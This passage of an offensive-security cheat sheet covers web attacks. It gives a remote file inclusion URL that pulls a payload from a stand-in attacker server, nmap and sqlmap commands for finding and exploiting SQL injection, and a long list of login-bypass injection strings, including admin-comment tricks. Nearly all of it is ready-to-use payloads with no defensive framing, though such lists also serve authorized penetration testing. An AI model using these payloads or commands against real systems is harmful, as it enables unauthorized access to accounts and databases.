 -   Remote file inclusion
    -   http://exampe.com/index.php?page=http://attackerserver.com/evil.txt

-   SQL Injection
	-   Enum using nmap
		-   `nmap -sV --script=http-sql-injection <target>`
	-   Using jsql
	-   Using sqlmap with login-page
	-   Capture the request using burp suite, and save the request in a file.
	-   sqlmap -r request.txt
	-   Crawl a page to find sql-injections
		-   `sqlmap -u http://example.com --crawl=1`
	-   [http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)

	-   Login bypass
		-   ‘or 1=1- -
		-   ‘ or ‘1’=1
		-   ‘ or ‘1’=1 - -
		-   ‘–
		-   ' or '1'='1
		-   -'
		-   ' '
		-   '&'
		-   '^'
		-   '*'
		-   ' or ''-'
		-   ' or '' '
		-   ' or ''&'
		-   ' or ''^'
		-   ' or ''*'
		-   "-"
		-   " "
		-   "&"
		-   "^"
		-   "*"
		-   " or ""-"
		-   " or "" "
		-   " or ""&"
		-   " or ""^"
		-   " or ""*"
		-   or true--
		-   " or true--
		-   ' or true--
		-   ") or true--
		-   ') or true--
		-   ' or 'x'='x
		-   ') or ('x')=('x
		-   ')) or (('x'))=(('x
		-   " or "x"="x
		-   ") or ("x")=("x
		-   ")) or (("x"))=(("x
		-   known Username
			-   admin’ - -
			-   admin’) - -
